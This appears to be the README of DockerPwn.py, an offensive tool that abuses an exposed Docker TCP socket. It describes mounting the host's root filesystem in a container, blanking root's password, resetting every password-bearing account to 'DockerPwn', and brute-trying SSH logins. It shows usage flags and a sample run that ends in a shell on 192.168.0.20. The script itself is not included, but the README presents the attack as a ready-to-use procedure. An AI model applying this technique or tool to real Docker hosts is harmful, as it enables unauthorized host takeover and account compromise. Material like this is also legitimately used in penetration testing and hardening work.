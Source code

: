 # DockerPwn.py

!!! CHECK OUT THE WIP BRANCH FOR A MORE MODULAR, PRETTY EXPERIENCE. !!!

!!! WHEN FULLY TESTED, WILL BE MERGED TO MASTER !!!

Automation for abusing an exposed Docker TCP Socket.

This will automatically create a container on the Docker host with the host's root filesystem mounted,
allowing arbitrary read and write of the host filesystem (which is bad).

Once created, the script will empty the password requirement for 'root', and will alter any user
with a valid Unix password to have a password of 'DockerPwn'

Once this is done, the script will attempt to use Paramiko to login to all users enumerated from 
/etc/passwd using the password 'DockerPwn', and a shell will be spawned. 

## Roadmap:

Utilize the limited command execution via Paramiko to get a better shell, and automatically escalate to root.


## Usage:
```
DockerPwn.py [-h] [--target TARGET] [--port PORT]

optional arguments:
  -h, --help       show this help message and exit
  --target TARGET  IP of Docker Host
  --port PORT      Docker API TCP Port
 ```
## Example Output:

```
Dylans-MacBook-Pro:~ dylan$ /usr/local/bin/python3 /Users/dylan/Documents/DockerPwn.py --target 192.168.0.20 --port 2375

[+] Successfully probed the API. Writing out list of containers just in case there's something cool.

[+] Downloading latest Alpine Image for a lightweight pwning experience.

[+] Alpine image is downloading to the host. Hope we aren't setting off any alarms. Sleeping for a bit.

[+] Alright, creating Alpine Linux Container now...

[+] Success! Created container with root volume mounted. Got ID 40b99b62bfb89181985fb38d1e2c4928efc22d72f48e83f989f2e822cf19bb5c!

[+] Starting container 40b99b62bfb89181985fb38d1e2c4928efc22d72f48e83f989f2e822cf19bb5c

[+] Container successfully started. Blue team will be with you shortly.

[+] Phew, alright. Creating the EXEC to change passwords.

[+] EXEC successfully created on container! Got ID bc5ee929577554b9bc573b33c4a7e811542657a6aaeba6791d07bbdcc602103f!

[+] Now triggering the EXEC to change passwords. Hope SSH is open...

[+] EXEC successfully triggered. Printing users found in /etc/passwd.

[!] User List: root daemon bin sys sync games man lp mail news uucp proxy www-data backup list irc gnats nobody systemd-network systemd-resolve syslog messagebus _apt lxd uuidd dnsmasq landscape pollinate sshd dylan

[+] OK, looking good. Attempting to open shell as root. This may take a minute or two.

[-] Login failed for root
[-] Login failed for daemon
[-] Login failed for bin
[-] Login failed for sys
[-] Login failed for sync
[-] Login failed for games
[-] Login failed for man
[-] Login failed for lp
[-] Login failed for mail
[-] Login failed for news
[-] Login failed for uucp
[-] Login failed for proxy
[-] Login failed for www-data
[-] Login failed for backup
[-] Login failed for list
[-] Login failed for irc
[-] Login failed for gnats
[-] Login failed for nobody
[-] Login failed for systemd-network
[-] Login failed for systemd-resolve
[-] Login failed for syslog
[-] Login failed for messagebus
[-] Login failed for _apt
[-] Login failed for lxd
[-] Login failed for uuidd
[-] Login failed for dnsmasq
[-] Login failed for landscape
[-] Login failed for pollinate
[-] Login failed for sshd
[+] Login succeeded for dylan!

DockerPwn@192.168.0.20> id
uid=1000(dylan) gid=1000(dylan) groups=1000(dylan),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)

DockerPwn@192.168.0.20> 
```

